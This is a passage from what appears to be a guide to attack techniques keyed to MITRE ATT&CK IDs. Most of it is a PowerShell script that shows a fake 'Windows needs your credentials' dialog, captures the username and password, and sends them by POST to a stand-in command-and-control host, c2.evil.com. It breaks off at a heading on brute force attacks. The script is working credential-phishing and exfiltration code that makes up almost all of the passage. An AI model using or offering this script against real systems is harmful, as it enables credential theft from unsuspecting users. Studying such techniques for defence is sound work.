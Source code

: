 ```powershell
$label.Location = New-Object System.Drawing.Point(10,20)
$label.Size = New-Object System.Drawing.Size(380,40)
$label.Text = "Windows needs your credentials to continue"
$form.Controls.Add($label)

$usernameLabel = New-Object System.Windows.Forms.Label
$usernameLabel.Location = New-Object System.Drawing.Point(10,70)
$usernameLabel.Size = New-Object System.Drawing.Size(100,20)
$usernameLabel.Text = "Username:"
$form.Controls.Add($usernameLabel)

$usernameBox = New-Object System.Windows.Forms.TextBox
$usernameBox.Location = New-Object System.Drawing.Point(120,70)
$usernameBox.Size = New-Object System.Drawing.Size(250,20)
$form.Controls.Add($usernameBox)

$passwordLabel = New-Object System.Windows.Forms.Label
$passwordLabel.Location = New-Object System.Drawing.Point(10,100)
$passwordLabel.Size = New-Object System.Drawing.Size(100,20)
$passwordLabel.Text = "Password:"
$form.Controls.Add($passwordLabel)

$passwordBox = New-Object System.Windows.Forms.TextBox
$passwordBox.Location = New-Object System.Drawing.Point(120,100)
$passwordBox.Size = New-Object System.Drawing.Size(250,20)
$passwordBox.PasswordChar = "*"
$form.Controls.Add($passwordBox)

$okButton = New-Object System.Windows.Forms.Button
$okButton.Location = New-Object System.Drawing.Point(220,140)
$okButton.Size = New-Object System.Drawing.Size(75,23)
$okButton.Text = "OK"
$okButton.DialogResult = [System.Windows.Forms.DialogResult]::OK
$form.AcceptButton = $okButton
$form.Controls.Add($okButton)

$result = $form.ShowDialog()

if ($result -eq [System.Windows.Forms.DialogResult]::OK) {
    $username = $usernameBox.Text
    $password = $passwordBox.Text
    
    # Exfiltrate credentials
    Invoke-WebRequest -Uri "http://c2.evil.com/creds" -Method POST -Body "u=$username&p=$password"
}
```

---

## 5. Brute Force Attacks (T1110)
